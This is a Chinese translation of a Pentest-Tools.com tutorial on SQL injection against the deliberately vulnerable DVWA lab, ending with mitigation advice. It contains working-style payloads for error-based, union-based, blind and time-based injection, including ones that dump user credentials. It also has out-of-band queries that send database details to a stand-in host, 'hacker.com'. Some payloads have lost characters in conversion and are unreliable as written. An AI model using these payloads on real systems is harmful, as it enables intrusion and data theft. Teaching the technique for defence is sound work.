

# 常见的 SQL 注入攻击| Pentest-Tools.com

> 原文：<https://pentest-tools.com/blog/sql-injection-attacks>

尽管 SQL 注入攻击由来已久，但它仍然是当前 web 应用程序的一个威胁。在本文中，我们用来自 DVWA ( [该死的易受攻击的 Web 应用](https://pentest-tools.com/website-vulnerability-scanning/website-scanner))的具体例子来讨论最常见的 SQL 注入攻击技术。

## **1。什么是 SQL 注入？**

SQL 注入是一种允许对手在 web 应用程序对其数据库的查询中插入任意 SQL 命令的技术。它可以在使用 MySQL、Oracle 和 MSSQL 等后端数据库的易受攻击的网页和应用程序上工作。

成功的攻击可导致对数据库中敏感信息的未授权访问或修改条目(添加/删除/更新)，具体取决于受影响数据库的类型。还可能使用 SQL 注入来绕过应用程序中的身份验证和授权，关闭甚至删除整个数据库。

## **2。SQL 注入攻击是如何工作的？**

我们将看到多种技术的一些具体例子，这些技术可以用来利用 web 应用程序中的 SQL 注入漏洞。

我们案例中的目标应用程序将是 [**该死的易受攻击的 web 应用程序**](http://www.dvwa.co.uk/) (DVWA)，它包含多种类型的漏洞(SQLi、XSS、LFI 等)，是学习 Web 安全的绝佳试验台。

我们将讨论的 [SQL 注入攻击](https://pentest-tools.com/website-vulnerability-scanning/sql-injection-scanner-online)的类型有:

1.  [**基于错误的 SQL 注入**](#2a-error-based-sql-injection)

2.  [**基于联合的 SQL 注入**](#2b-union-based-sql-injection)

3.  [**盲目 SQL 注入**](#2c-blind-sql-injection)

4.  [**带外 SQL 注入**](#2d-out-of-band-sql-injection)

### **2.a .基于错误的 SQL 注入**

最常见的 SQL 注入漏洞之一，也很容易确定。它依赖于提供意外命令或无效输入(通常通过用户界面),使数据库服务器回复一个错误，其中可能包含有关目标的详细信息:结构、版本、操作系统，甚至返回完整的查询结果。

在下面的例子中，网页允许获取给定 ID 的用户的名字和姓氏。通过提交`5`作为用户 ID 的输入，应用程序从数据库返回用户详细信息。


应用程序使用的 SQL 查询是:

`SELECT firstname, lastname FROM users WHERE user_id = '$id';`


服务器接受来自用户的输入并返回相关值，这表明攻击者可以使用恶意输入来修改后端查询。键入`5'`，由于单引号，后端响应一个错误:


来自用户的输入修改后端查询，变成:

`SELECT firstname, lastname FROM users WHERE user_id = '5'';`(注意这里多余的引用)

直接在数据库服务器上执行相同的查询(仅用于测试目的)，可以看到相同的结果:


利用基于错误的 SQL 注入依赖于这样一个事实，即注入的 SQL 查询会将结果输出到数据库返回的错误消息中。例如，通过将以下有效负载注入用户 ID 字段:

`0' AND (SELECT 0 FROM (SELECT count(), CONCAT((SELECT @@version), 0x23, FLOOR(RAND(0)2)) AS x FROM information_schema.columns GROUP BY x) y) - - '`

将导致应用程序返回以下 SQL 错误消息(包含@@version 变量的值):

`Error: Duplicate entry '10.1.36-MariaDB#0' for key 'group_key'`

因为 GROUP BY 需要唯一的组键，所以产生了这个错误，这是为了返回错误消息中的值`SELECT @@version`。

### **2.b .基于联合的 SQL 注入**

UNION 运算符扩展了原始查询返回的结果，使用户能够运行两个或更多语句，如果它们与原始语句具有相同的结构。在我们的例子中，我们选择了 SELECT 要利用该漏洞，需要满足以下条件:

*   UNION 中的每个 SELECT 语句都有相同数量的列

*   这些列还必须具有相似的数据类型

*   每个 SELECT 语句中的列顺序相同

`SELECT firstname, lastname FROM users UNION SELECT username, password FROM login;`

这里， ***名字*** 和 ***姓氏*** 是表中各列的名称 ***用户*** ， ***用户名*** 和 ***密码*** 是表中各列的名称 ***登录*** 。

使用引用不同列数的语句运行 UNION 运算符会导致一条错误消息，如以下有效负载所示:

`User ID: 1’ UNION SELECT 1;- -`


但是，当查询具有正确的列数时，查询会成功:

用户 ID: `1' UNION SELECT 1,2;- -`


在数据库中尝试它会得到相同的输出；不正确的数字会显示错误，而正确的值会成功完成查询:


攻击者可以测试多个变种，直到找到正确的为止。接下来，在 ***@@version*** 命令的帮助下，他们可以使用这种方法获得关于数据库版本号的信息:

`UNION SELECT 1,@@version;- -`


类似地，命令***current _ user()***可以提取数据库在其权限下运行的用户类型。

`UNION SELECT 1,current_user();- -`


进一步[利用漏洞](https://pentest-tools.com/exploit-helpers/sniper)，我们可以获得当前数据库中表的名称以及表中包含信息的列的相同细节。

要提取表的列表，我们可以使用:

`1' UNION SELECT 1,tablename FROM informationschema.tables;- -`


要获得列名，我们可以使用:

`1' UNION SELECT 1,columnname FROM informationschema.columns;- -`


使用这两个查询，我们提取了表名 ***用户*** 和列名 ***用户 id*** ， ***名字*** ， ***姓氏*** ， ***用户*** ， ***头像*** ， ***最后 _ 登录*现在，使用下面的查询，我们可以从数据库中获取应用程序用户的用户名和密码:**

`1' UNION SELECT 1,concat(user,':',password) FROM users;- -`


最有可能的是，密码不是以纯文本的形式存储，而是以散列的形式存储(在我们的例子中是 MD5)。然而，攻击者可以尝试使用彩虹表来破解它，彩虹表将纯文本字符串与其哈希表示进行匹配。

### **2.c .盲 SQL 注入**

这种类型的注入攻击不会显示任何错误消息，因此得名“盲”。当应用程序被给予从服务器返回*真*或*假*响应的 SQL 有效负载时，它更难被利用。通过观察响应，攻击者可以提取敏感信息。

有两种类型的盲 SQL 注入:基于布尔的和基于时间的。

#### **基于布尔的盲 SQL 注入**

在这种类型的攻击中，布尔查询导致应用程序对数据库中的有效或无效结果给出不同的响应。它的工作原理是从需要提取的文本中枚举字符(例如数据库名、表名、列名等)。

使用与以前相同的易受攻击的应用程序，而不是接收所提供的用户 ID 的用户详细信息，回复显示 ID 是否存在于数据库中。


正如您在上面的图像中看到的，对于值 1-5，我们得到消息“数据库中存在用户 ID”，而大于 5 的 ID 值得到“数据库中缺少用户 ID”。

我们可以尝试基于布尔的有效负载来检查应用程序是否易受攻击。注入有效载荷`1' and 1=1;- -`导致*真*条件，因为`1`是有效 id，而`'1=1'`是真语句。因此返回的结果通知数据库中存在该 ID。


或者，馈送有效载荷`1' and 1=2;- -`导致*假*条件，因为`1`是有效的用户 id 并且`1=2`是*假*；因此，我们被告知数据库中不存在用户 ID。


上面的场景表明，盲目的 SQL 注入攻击是可能的。继续确定列数，我们使用以下有效负载:

`1' and 1=1 UNION SELECT 1;- -`


查询失败，因为表中有两列。但是当调整正确时，条件变为*真*，消息验证查询。

`1' and 1=1 UNION SELECT 1,2;- -`


同样的方法可以用来发现数据库的版本。我们通过以下方式获得数据库版本的第一个编号:

`1' and substring(@@version,1,1)=1;- -`

回复是肯定的，因为‘1’是数据库中的有效条目，并且它也是数据库版本的第一个字符/数字(@@version，1，1)。对于第二个字符，我们使用以下命令:

`1' and substring(@@version,2,1)=1;- -`


因为数据库版本的第二个字符不是 1，所以结果是负的。要求将“零”作为数据库版本中的第二个字符，消息是肯定的(版本号是“10”)。

`1' and substring(@@version,2,1)=0;- -`



下一步是学习数据库的名称，首先确定名称的长度，然后按照正确的顺序枚举字符，直到找到正确的字符串。

我们使用以下有效负载来确定名称的长度:

`1’ and length(database())=1;-- 1’ and length(database())=2;- - 1’ and length(database())=3;- - 1’ and length(database())=4;- -`

在我们的例子中，我们在前三次尝试中收到了错误，在第四次尝试中达到了正确的值。这意味着数据库的名称有四个字符长。


为了枚举数据库名称中的字符，我们使用这些有效负载:

`1' and substring(database(),1,1)='a';- - 1' and substring(database(),1,1)='b';- - 1' and substring(database(),1,1)='c';- -`

没有一个命令是正确的，因为'是名称的第一个字母。


为了识别第二个字符，我们使用命令

`1' and substring(database(),2,1)='v';- -`

对于第三个，我们运行:

`1' and substring(database(),3,1)='w';- -`

而第四个是使用以下方法发现的:

`1' and substring(database(),4,1)='a';- -`


最后，数据库的名称是“dvwa”

#### **基于时间的盲 SQL 注入**

这种类型的盲目 SQL 注入依赖于在易受攻击的应用程序响应攻击者使用时间延迟值定制的查询之前等待一段特定的时间。攻击的成功取决于应用程序发送响应所需的时间。为了检查基于时间的盲目 SQL 注入，我们使用以下命令:

`1' AND sleep(10);- -`

因为我们强制延迟了 10 秒钟的响应，所以当这段时间到期时，就会收到回复。


确认漏洞后，我们可以继续提取数据库版本号。我们使用了一个命令，强制在两秒钟后回复:

`1' and if((select+@@version) like "10%",sleep(2),null);- -+`

如果响应在两秒钟内出现，则意味着版本以“10”开头我们在查询中使用的“like”字符串操作符旨在进行逐字符比较。

### **2.d .带外 SQL 注入**

使用这种类型的 SQL 注入，无论用户输入和数据库错误如何，应用程序都显示相同的响应。为了检索输出，使用了不同的传输通道，如 HTTP 请求或 DNS 解析；注意，攻击者需要控制所述 HTTP 或 DNS 服务器。

泄露有关 MYSQL 数据库的信息，攻击者可以使用以下查询:

数据库版本:

`1’;select load_file(concat('\\\\',version(),'.hacker.com\\s.txt'));`

数据库名称:

`1’;select load_file(concat('\\\\',database(),'.hacker.com\\s.txt'));`

上面的两个命令将 ***version()*** 或 ***database()*** 命令的输出连接成 DNS 解析查询域名“hacker.com”。

下图显示了如何将数据库的版本和名称添加到恶意域的 DNS 信息中。控制服务器的攻击者可以从日志文件中读取信息。


## **3。减轻 SQL 注入**

从根本上说，SQL 注入有两个主要原因:

为了缓解这一问题，开发人员可以实施输入验证，并结合其他保护方法使用预准备语句。

### **3.a .验证用户提供的输入**

有两种方法:将用户输入字段中接受或拒绝的字符列入白名单和黑名单。

创建认可字符列表是防御 SQL 注入攻击的有效方法。一旦白名单准备就绪，应用程序应该禁止所有包含白名单以外字符的请求。

黑名单不是防止 SQL 注入的推荐方法，因为它很容易失败。只要开发人员能够确保用户输入字段不接受除了必需字符之外的任何特殊字符，它就能工作。结果应该是避开所有可能有害的字符。

### **3.b .准备好的报表**

这可以强制前端的查询作为参数的内容来处理，而不是 SQL 查询本身的一部分。这意味着攻击者无法通过在应用程序前端插入恶意输入来修改后端 SQL 查询。

下面是一个用 Java 编写的语句示例:

```
String uid = request.getParameter("userid");
String query = "SELECT first_name, last_name FROM users WHERE user_id = ? ";
PreparedStatement pstmt = connection.prepareStatement( query );
pstmt.setString( 1, uid);
ResultSet results = pstmt.executeQuery( );
```

### **3.c .最小特权原则**

防止应用程序数据库用户运行需要提升权限的查询。结果是降低了 SQL 注入攻击的影响。例如，如果应用程序受到威胁，则只能读取数据库的帐户不能用来更改存储的信息。

### **3.d .附加安全层**

像 Web 应用程序防火墙(WAF)这样的解决方案可以作为防止 SQL 注入攻击的额外措施。WAFs 在应用程序级别检查流量，并可以确定它是否是坏的。由于签名需要更新，所以需要维护，否则，攻击者可以找到绕过 WAF 的方法。

**了解这些常见的 SQL 注入攻击**

SQL 注入是最常见也是最危险的漏洞之一。在验证用户输入的过程中，一个小小的错误就可能让受害者损失整个数据库。有几个开源工具通过让攻击者获得 shell 访问权限或帮助转储数据库，使他们的工作变得更加容易。

开发人员可以通过遵循在应用程序中编写 SQL 查询的安全编码准则以及采用最佳实践来避免这种安全风险。

您可以在 OWASP 的这些资源中阅读有关 SQL 注入的更多信息: